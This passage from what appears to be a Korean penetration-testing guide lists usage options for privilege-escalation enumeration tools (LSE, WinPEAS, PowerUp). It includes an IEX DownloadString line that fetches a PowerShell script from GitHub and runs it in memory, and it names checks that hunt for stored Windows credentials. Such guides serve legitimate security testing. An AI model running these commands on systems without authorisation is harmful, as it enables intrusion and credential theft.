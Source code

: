 ```bash
# LSE (Linux Smart Enumeration)
chmod +x lse.sh

# 레벨 1 (빠른 스캔)
./lse.sh -l1

# 레벨 2 (상세 스캔)
./lse.sh -l2

# 특정 섹션만
./lse.sh -s
```

### 🪟 Windows 자동화 도구 활용

```cmd
:: WinPEAS 다양한 실행 옵션
:: 기본 실행
winPEAS.exe

:: 빠른 스캔
winPEAS.exe cmd fast

:: 결과 파일로 저장
winPEAS.exe > winpeas_output.txt

:: 특정 검사만 실행
winPEAS.exe systeminfo
winPEAS.exe userinfo
winPEAS.exe processinfo
winPEAS.exe servicesinfo
winPEAS.exe applicationsinfo
winPEAS.exe networkinfo
winPEAS.exe windowscreds

:: 색상 없이 출력 (파일 저장용)
winPEAS.exe cmd > winpeas_clean.txt

:: 조용한 모드 (진행률 표시 없음)
winPEAS.exe quiet
```

```powershell
# PowerUp 상세 사용법
# PowerUp 로드
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1')

# 모든 검사 실행
Invoke-AllChecks

# 개별 검사 실행
Get-ServiceUnquoted
Get-ModifiableServiceFile
Get-ModifiableService
Get-ServiceDetail
Get-UnattendedInstallFile
Get-Webconfig
Get-ApplicationHost
Get-RegistryAutoLogon
Get-RegistryAlwaysInstallElevated
Get-ModifiableRegistryAutoRun
Get-ModifiableScheduledTaskFile
Get-UnquotedService
```